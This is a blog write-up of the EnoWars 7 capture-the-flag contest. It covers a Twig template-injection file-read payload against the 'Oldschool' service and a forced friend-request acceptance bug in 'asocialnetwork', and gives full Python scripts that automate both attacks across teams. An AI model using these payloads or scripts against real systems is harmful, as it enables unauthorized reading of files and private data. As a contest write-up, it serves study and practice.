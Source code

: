 


---
layout: post
title: EnoWars 7
---



# Oldschool - Twig SSTI

One of the many vulnerabilities from this service was SSTI. The program is using the twig templating engine so a payload like `{{7*7}}` will result in `49`

![about me page]({{ site.baseurl }}/images/enowars/about.png)

We exploiting this in the "About me" section of the user profile

![ssti code]({{ site.baseurl }}/images/enowars/sstivuln.png)

As a result of this snipped of code. we can pass SSTI payloads into service.

From testing it seemed RCE was not going to work. We still had file read which is enough for us to exploit this. The following payload is used for file read:
`{{ source("grades/file_to_read") }}`
This would result in an error on the page so it was wrapped in a comment:

Final payload: `<!-- {{ source("file_we_want_to_read") }} --!>`



So we can read any file we want. but we need to read flag files! Looking at the attack.json endpoint we can see what flagstores are useful for Oldschool.

![attack json file]({{ site.baseurl }}/images/enowars/attackjson.png)


A file is being upload and named `randomints_md5hash` this md5 hash. From looking at our own box these files are being saved in `/services/grades/` 

so we need to read grades/FLAG_ID

I tested this on the NOP team with a simple payload of :
`<!-- {{ source("grades/138219_1143facd439275abb0caed4979e4f8bf") }} --!>` 
and sure enough. the flag was in the source of the page. Now it was just a matter of writing an exploit script that will go to each team and grab that flag. 

## Exploiting
We need to automate out exploit in order to exploit all the teams. To do this, we need a few "stages" to our exploit. the basic plan is:
- Create an account
- Using that account update About me with out SSTI payload
- Retrieve and submit the flag


We used a random string for the username and password for each account and would make a new account for each attack. The following code will make an account for us:
```python
session = requests.Session()
username = rand_string(10)
password = rand_string(10)

session.post(f"http://{ip}:9080/index.php?action=register", data={"username":username,"password":password})
```

We than update our profile "about me" with out payload and grab the results of the page:

```python
payload = {'about_me': '<!--{{ source("grades/'+FLAGID+'") }}-->'}
session.post(f"http://{ip}:9080/index.php?action=profile", data=payload)
profile_page = session.get(f"http://{ip}:9080/index.php?action=profile").text
```

FLAGID and IP are taken from the attack.json endpoint.

We used this bit of code to only return the flag string from out exploit script:
```python
flag_regex = re.compile('ENO[A-Za-z0-9+/=]{48}')
flags = flag_regex.findall(profile_page)

print(flags)
```


Our exploit manager handles the submitting of the flag. so printing it out like that is enough for this script.

![attack json file]({{ site.baseurl }}/images/enowars/gotflag.png)


Full script:
```python
#!/usr/bin/python3
import requests
import random
import string
import re
import os
import json

letters = string.ascii_lowercase

def rand_string(num):
	return ''.join(random.choice(letters) for i in range(num))

ip = os.getenv('TARGET_IP')
extra = json.loads(os.getenv('TARGET_EXTRA'))

for x in extra.keys():
	FLAGID = extra[x]['1'][0].split(' ')[-1]

	session = requests.Session()

	username = rand_string(10)
	password = rand_string(10)

	payload = {'about_me': '<!--{\% include "grades/'+FLAGID+'" \%}--> <!--{{ source("grades/'+FLAGID+'") }}-->'}

	session.post(f"http://{ip}:9080/index.php?action=register", data={"username":username,"password":password})
	session.post(f"http://{ip}:9080/index.php?action=profile", data=payload)
	profile_page = session.get(f"http://{ip}:9080/index.php?action=profile").text

	flag_regex = re.compile('ENO[A-Za-z0-9+/=]{48}')
	flags = set(flag_regex.findall(profile_page))
	for flag in flags:
		print(flag)
```

# asocialnetwork - Broken Access Control

This was wonderfully made social media app. 
![home page]({{ site.baseurl }}/images/enowars/asocialnetwork.png)


We found from tulip that the Chatroom will contain a flag. The chatroom that has a flag was the room that a user from the `attack.json` file was a part of. The only issue is in order to know that room this user is a part of, you must be their friend, and making friends is hard so lets force them to be our friend.

When you send a friend request the following request is made:
`partner=THEIRNAME&userName=YOURNAME&status=send`

```node
if (req.body.status === 'accept') {
    if (!friend) {
        res.status(400).send('Acceptance Request not found')
        return
    } else {
        friend.status = 'accepted'
        await friend.save()
    }
}

```

however, you can force them to accept your friend request by changing "send" to "accept" 

There is no check to ensure the user accepting the request is not the user that sent the request. 

So now that we are suddenly very popular. we can view our new friend profile and see what rooms they are part of. (I don't have any screenshots of this from the live CTF). Viewing their profile gave us a room ID. this room ID was not valid to just join the chatroom. From review of the source code we needed to get the sha256 of that ID. This would let us join the chatroom and get the flag.

## Exploiting

For this exploit we need to:
- Make a new account
- Send a friend request to our new friend
- Force them to accept it.
- get the sha256sum of the room ID
- Visit the room and get the flag

First bit is done with this:
```python
session = requests.Session()
username = rand_string(10)
password = rand_string(10)

session.post(f"http://{ip}:3000/register", data={"username":username,"password":password,"confirmPassword":password})
```

We can than send and accept the friend request with this:
```python
session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"send"})
session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"accept"})
```

The final part is to go to our new friends page. get the ID, hash it and view the chatroom:
```python
friend_page = session.get(f"http://{ip}:3000/profile/{FLAGID}").text
pattern = r'<div class="room">\s*<h3>(.*?)</h3>'
test = re.search(pattern,friend_page)
roomid_tmp = test.group(1).encode('utf-8')
roomid = hashlib.sha256(roomid_tmp).hexdigest()

chatroom = session.get(f"http://{ip}:3000/chatroom/{roomid}").text

```

Full script:
```python
#!/usr/bin/python3
import requests
import random
import string
import re
import os
import json
import hashlib


letters = string.ascii_lowercase
def rand_string(num):
	return ''.join(random.choice(letters) for i in range(num))

ip = os.getenv('TARGET_IP')
extra = json.loads(os.getenv('TARGET_EXTRA'))

for x in extra.keys():
	FLAGID =json.loads(extra[x]['1'][0])['username']
	#print(FLAGID)
	try:
		session = requests.Session()
		username = rand_string(10)
		password = rand_string(10)

		session.post(f"http://{ip}:3000/register", data={"username":username,"password":password,"confirmPassword":password})
		session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"send"})

		session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"accept"})

		friend_page = session.get(f"http://{ip}:3000/profile/{FLAGID}").text
		pattern = r'<div class="room">\s*<h3>(.*?)</h3>'
		test = re.search(pattern,friend_page)
		roomid_tmp = test.group(1).encode('utf-8')
		roomid = hashlib.sha256(roomid_tmp).hexdigest()

		chatroom = session.get(f"http://{ip}:3000/chatroom/{roomid}").text

		flag_regex = re.compile('ENO[A-Za-z0-9+/=]{48}')
		flags = flag_regex.findall(chatroom)
		for flag in set(flags):
			print(flag)
	except Exception as e:
		print(e)
```


